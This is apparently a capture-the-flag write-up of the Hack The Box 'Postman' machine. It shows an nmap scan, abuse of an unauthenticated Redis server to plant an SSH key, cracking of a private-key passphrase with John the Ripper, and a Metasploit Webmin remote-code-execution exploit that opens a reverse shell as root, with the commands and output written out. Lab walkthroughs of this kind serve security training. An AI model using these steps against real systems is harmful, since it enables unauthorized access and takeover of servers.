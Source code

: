 ```yaml
---
path: "/htb-postman"
title: "Hack The Box - Postman"
date: "03/23/2020"
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT      STATE SERVICE    VERSION
22/tcp    open  tcpwrapped
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|_  256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis      Redis key-value store 4.0.9
10000/tcp open  http       MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
...
```

With these result the first thing that stands out is the http server at port `80`.
This yielded nothing very useful. We can pay attention to the other http server at port `10000`.
Webmin was also a deadend (..for now)

The next available port is redis. You can use the redis-cli to connect to it. No authentication required.
`redis-cli -h 10.10.10.160`

Poking around the interwebs you can find ways to exploit a redis server.[HackTricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#get-sshcrackit)
The approach we are going with is to put a public key in the redis server and overwrite the `.ssh/authorized_keys`. This will allow us to ssh as the redis user.

(side note - I create a script that generates ssh keypair and then upload the public key to the server [SSH Redis Exploit](https://github.com/bascoe10/RedisExploit))

```
root@kali:~/HTB/Postman/RedisExploit# python ssh_exploit.py 10.10.10.160 /var/lib/redis/.ssh
Namespace(host='10.10.10.160', ssh_dir='/var/lib/redis/.ssh')
Key pairs generated
Redis flushed
public key added to redis
Home directory set
DB filename changed
Setting saved
Done
root@kali:~/HTB/Postman/RedisExploit# ssh redis@10.10.10.160 -i private.pem
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

redis@Postman:~$
```

Once you establish initial foothold. You can start looking for ways to escalate our privileges.
From the `/home` directory you can find that there is a user `Matt` and also in the `/opt` there is `id_rsa.bak`.

There is a passphrase required for the private key. For this, `JohnTheRipper` to the rescue.
In other to use `JohnTheRipper` the key has to be converted to `john` format with `ssh2john`.

The passphrase turns out to be `computer2008`. The ssh gets terminated immediately if you try to use this private key as Matt.
With the passphrase at hand you can to use it directly on the box.
Log in as `redis` user and the `su Matt`, supply the passhphrase and you should be good.

First flag down.

For the root flag you can exploit webmin 1.910 via `metasploit`

```
root@kali:~/HTB/Postman# msfconsole


Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018   es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)


Stack: 90909090990909090990909090
       90909090990909090990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v5.0.76-dev                          ]
+ -- --=[ 1971 exploits - 1088 auxiliary - 339 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => tun0
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.216:4444
[+] Session cookie: d464b6cc2a8b929cda109ff0eaaa4ec9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.216:4444 -> 10.10.10.160:55052) at 2020-03-22 15:52:55 -0400
whoami

root
ls -al /root
...
-rw-r--r--  1 root root    33 Aug 26  2019 root.txt
```
